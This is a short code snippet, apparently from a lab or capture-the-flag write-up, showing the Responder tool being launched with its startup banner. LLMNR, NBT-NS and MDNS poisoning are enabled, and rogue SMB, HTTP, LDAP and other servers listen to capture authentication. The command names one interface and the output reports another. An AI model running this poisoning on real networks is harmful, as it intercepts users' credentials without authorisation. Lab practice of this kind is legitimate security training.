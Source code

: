 ```bash
sudo responder -I ens33

                                         __               
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|              

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0
               
  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:                
    LLMNR                      [ON]
    NBT-NS                     [ON]        
    DNS/MDNS                   [ON]   
                                                                                                                                                                                          
[+] Servers:         
    HTTP server                [ON]                                   
    HTTPS server               [ON]
    WPAD proxy                 [OFF]                                  
    Auth proxy                 [OFF]
    SMB server                 [ON]                                   
    Kerberos server            [ON]                                   
    SQL server                 [ON]                                   
    FTP server                 [ON]                                   
    IMAP server                [ON]                                   
    POP3 server                [ON]                                   
    SMTP server                [ON]                                   
    DNS server                 [ON]                                   
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]                                   
                                                                                   
[+] HTTP Options:                                                                  
    Always serving EXE         [OFF]                                               
    Serving EXE                [OFF]                                               
    Serving HTML               [OFF]                                               
    Upstream Proxy             [OFF]                                               

[+] Poisoning Options:                                                             
    Analyze Mode               [OFF]                                               
    Force WPAD auth            [OFF]                                               
    Force Basic Auth           [OFF]                                               
    Force LM downgrade         [OFF]                                               
    Fingerprint hosts          [OFF]                                               

[+] Generic Options:                                                               
    Responder NIC              [tun0]                                              
    Responder IP               [10.10.14.198]                                      
    Challenge set              [random]                                            
    Don't Respond To Names     ['ISATAP']                                          

[+] Current Session Variables:                                                     
    Responder Machine Name     [WIN-2TY1Z1CIGXH]   
    Responder Domain Name      [HF2L.LOCAL]                                        
    Responder DCE-RPC Port     [48162] 

[+] Listening for events... 

```